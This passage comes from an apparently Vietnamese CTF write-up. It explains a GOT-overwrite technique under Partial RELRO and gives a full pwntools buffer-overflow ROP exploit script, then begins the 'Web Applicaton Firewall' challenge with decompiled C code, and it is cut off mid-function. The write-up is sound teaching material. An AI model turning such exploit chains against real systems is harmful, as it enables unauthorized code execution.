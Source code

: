 Để ý RELRO của binary là `Partial RELRO` nên ta có thể thay đổi `read@got` hoặc `write@got` trỏ tới `system` bằng phép cộng tuyến tính của gadget đó thay vì cần leak libc ra.

Script:
```python
from pwn import *
from time import sleep

context.binary = e = ELF("./all_patched_up_patched")
libc = ELF("./libc.so.6")
gs="""
b *0x00000000004011ED
"""
def start():
	if args.LOCAL:
		p=e.process()
		if args.GDB:
			gdb.attach(p,gdbscript=gs)
			pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p

p = start()
cus = 0x00000000040124A
p.sendlineafter("> ",b"\0"*520+
		p64(cus)+
		p64(0xfffd5b3e)+ # ebx
		p64(e.got.read+0x3d)+ # rbp
		p64(0)*4+
		p64(0x40115c) + #add    DWORD PTR [rbp-0x3d],ebx ; ret
		p64(e.plt.read)
	)
p.interactive()
```

## Web Applicaton Firewall

Attachment:
[waf](https://robbert1978.github.io/assets/uploads/nahamcon2023/waf)
[libc-2.27.so](https://robbert1978.github.io/assets/uploads/nahamcon2023/libc-2.27.so)

Từ hàm `add_config`:
```c 
unsigned __int64 __fastcall add_config(__int64 a1)
{
  const char *v1; // rbx
  char v3; // [rsp+1Bh] [rbp-35h] BYREF
  int n; // [rsp+1Ch] [rbp-34h]
  char s[24]; // [rsp+20h] [rbp-30h] BYREF
  unsigned __int64 v6; // [rsp+38h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  printf("What is the id of the config?: ");
  fgets(s, 16, stdin);
  *(_DWORD *)a1 = atoi(s);
  memset(s, 0, 0x10uLL);
  printf("What is the size of the setting?: ");
  fgets(s, 16, stdin);
  n = atoi(s);
  *(_QWORD *)(a1 + 8) = malloc(n);
  printf("What is the setting to be added?: ");
  fgets(*(char **)(a1 + 8), n, stdin);
  v1 = *(const char **)(a1 + 8);
  v1[strcspn(v1, "\r\n")] = 0;
```